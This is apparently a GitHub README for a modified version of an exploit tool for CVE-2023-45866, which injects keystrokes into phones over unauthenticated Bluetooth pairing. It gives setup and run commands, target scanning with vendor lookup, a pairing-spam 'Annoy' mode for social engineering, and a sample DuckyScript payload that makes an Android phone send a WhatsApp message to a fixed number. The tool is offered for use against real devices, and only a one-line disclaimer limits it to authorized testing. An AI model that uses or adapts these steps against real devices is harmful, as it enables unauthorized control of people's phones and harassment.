

# BlueDucky-Improve 🦆🚀

Improved version of BlueDucky (CVE-2023-45866) by **Nagamancayy**. Specifically refactored for better compatibility with **CSR 4.0 dongles** and virtualized environments (**UTM/Kali on Apple Silicon**).

Welcome dear HACK3RS! This version maintains the original power of BlueDucky but adds modern resilience and new attack vectors.

🔹 Credits to the original contributors:
 ᯓ➤[Hackwithakki on GitHub] (Original Kali Port)
 ᯓ➤[saad0x1 on GitHub]
 ᯓ➤[spicydll on GitHub]

<p align="center">
  
</p>

🚨 **CVE-2023-45866 - Exploitation via DuckyScript** 🦆
🔓 Unauthenticated Bluetooth Peering ᯓ➤ Remote Code Execution (Using HID Keyboard)

[This tool is based on the vulnerability Discovered by Marc Newlin CVE-2023-45866](https://github.com/marcnewlin/hi_my_name_is_keyboard)

<p align="center">
  
</p>

## 🆕 Nagamancayy Edition Features 🛡️
- **Attack Modes**: 
    - `1. Normal`: Standard one-shot HID injection.
    - `2. Annoy (Spam)`: Persistent pairing requests. Ideal for social engineering on patched devices.
- **Hardware Compatibility Fix**: Removed problematic `set_property` and `troubleshoot_bluetooth` calls that cause hangs on virtualized CSR dongles.
- **Improved CSR 4.0 Support**: Optimized for zero-click execution on vulnerable targets using older Bluetooth stacks.

## Introduction 📢
🧠 What is BlueDucky?
╰┈➤ BlueDucky is a powerful linux based tool for wireless HID Attack through Bluetooth. By running this Duckyscript, you can:
ᯓ➤ 📡 Reconnect with previously paired Bluetooth devices (even if not visible) but have Bluetooth still enabled.
ᯓ➤ 📂 Automatically save devices to reuse.
ᯓ➤ 💌 Execute HID keystroke payloads via DuckyScript.

✔️ Tested and stable on **Kali Linux (UTM)** using **CSR 4.0 dongles**.
✔️ It works against various phones (Android/Linux).

## Installation and Usage 🛠️

### Setup Instructions for Debian/Kali 

```bash
1️⃣ # update apt
ᯓ➤ sudo apt-get update && sudo apt-get -y upgrade

2️⃣ # install dependencies from apt
ᯓ➤ sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

3️⃣ # install pybluez from source (Required)
ᯓ➤ git clone https://github.com/pybluez/pybluez.git
     cd pybluez
     sudo python3 setup.py install

4️⃣ # build bdaddr from the bluez source
ᯓ➤ cd ~/
     git clone --depth=1 https://github.com/bluez/bluez.git
     gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
     sudo cp bdaddr /usr/local/bin/
```

## ▶️ How to Run BlueDucky-Improve
```bash
ᯓ➤ git clone https://github.com/Nagamancayy/blueduckyimprove.git
ᯓ➤ cd blueduckyimprove
ᯓ➤ pip3 install -r requirements.txt
ᯓ➤ sudo hciconfig hci0 up
ᯓ➤ sudo python3 BlueDucky.py
```

### 🔍 Scanning Modes
Now you can choose your scanning strategy:
- **Quick Scan**: The original, fast Classic Bluetooth discovery (8 seconds).
- **Deep Scan**: Detailed 15-second scan combining **Classic + BLE**. Includes **Vendor Identification** (OUI) to guess nameless devices (e.g., Identifying potential iPhones).

## ⚙️ Operational Steps 🕹️
ᯓ➤ After starting, it prompts for the target MAC address. (Use `hcitool lescan` or `bluetoothctl` to find targets).
ᯓ➤ Leave it blank to start auto-scanning.
ᯓ➤ **Select Code Mode**: Select `Normal` for one-shot or `Annoy` for pairing spam.
ᯓ➤ The script executes using your chosen payload from the `payloads/` folder.

## Duckyscript 💻
#### 📝 Example payload (android_wp.txt):
```bash
REM Custom WhatsApp Payload for Android
DELAY 1000
GUI d
DELAY 500
STRING https://wa.me/628123456789?text=P
DELAY 2000
ENTER
DELAY 500
TAB
DELAY 500
ENTER
DELAY 3000
TAB
DELAY 500
ENTER
```

## Enjoy experimenting with BlueDucky-Improve! 🌟
---
*Disclaimer: For educational and authorized security testing purposes only.*
